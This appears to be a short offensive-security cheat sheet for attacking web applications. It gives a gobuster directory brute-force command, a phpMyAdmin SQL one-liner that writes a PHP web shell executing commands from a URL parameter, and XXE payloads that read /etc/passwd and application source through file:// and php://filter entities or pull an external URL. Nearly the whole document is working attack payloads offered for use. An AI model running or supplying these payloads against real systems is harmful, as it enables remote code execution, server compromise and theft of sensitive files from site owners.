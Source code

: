 # Web

- [BruteForce Url](#bruteforce-url)
- [PhpMyAdmin](#phpmyadmin)
- [XML external entity (XXE)](#xml-external-entity-xxe)

## BruteForce Url
### Gobuster
```
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```

### Zap
```
owasp-zap
```

## PhpMyAdmin
### Quick Shellcode
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```

## XML external entity (XXE)
### Read File
```
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<foo>Hello &file;</foo>
```
### Get Link
```
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<foo>Hello &file;</foo>
```

